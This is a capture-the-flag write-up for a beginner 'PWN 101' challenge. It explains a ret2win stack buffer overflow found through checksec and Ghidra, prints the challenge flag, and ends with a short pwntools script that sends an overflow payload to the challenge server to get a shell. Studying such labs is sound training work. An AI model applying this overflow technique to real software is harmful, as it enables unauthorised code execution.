



# 101 - PWN

FLAG

```
TSA{PWN_101_2d2de462ebe19a876eb74b1c9c053120}
```

## Analysis

We got a file which is ELF 64-bit which when executed it request an input of name. After checking the protection that exist on the file using Checksec, it found that there's no any protection that exist. Then we decompile it using Ghidra and found two interesting function, which is `main` function and `secret` function. Here's a picture of the each function details:

<figure><figcaption><p>Main Function</p></figcaption></figure>

<figure><figcaption><p>Secret Function</p></figcaption></figure>

As we can see, that this function of `main` is literally have an array which store our input only up to 128 length as our input. So it could be concluded that this is a classic Buffer Overflow exploitation or ret2win problem. And as of the secret function there's some line of program that execute what we needed which executing the shell for us. Throughout the analyzation that has been done we need the address of the secret function, the return address and the offset.

<figure><figcaption><p>Address of Secret Function</p></figcaption></figure>

<figure><figcaption><p>Return Address</p></figcaption></figure>

<figure><figcaption><p>Offset</p></figcaption></figure>

We need the gadget of return because if we not done so it will receive segmentation fault and not returning the shell to us. After we got all it needed to gain the shell, then make the program using pwntools library to execute the command as it needed to gain the shell. Where the logics that would be implemented on the program are as follows:

1. Create a variable that contains a random character to fill as the known offset of the program before reaching the buffer overflow.
2. then append to the variable which is a return address
3. last but not least, append the address of secret function
4. next send it to the server
5. Voila, we got the shell!!


## Solver Script

```python
from pwn import *
e  = context.binary = ELF('/home/xis/Downloads/pwn')
p = remote('0.cloud.chals.io', 32229)
payload = b'A' * 136
payload += p64(0x40101a)
payload += p64(0x401196)
p.recvuntil(b"[>] Nama: ")
p.sendline(payload)
p.interactive()

```
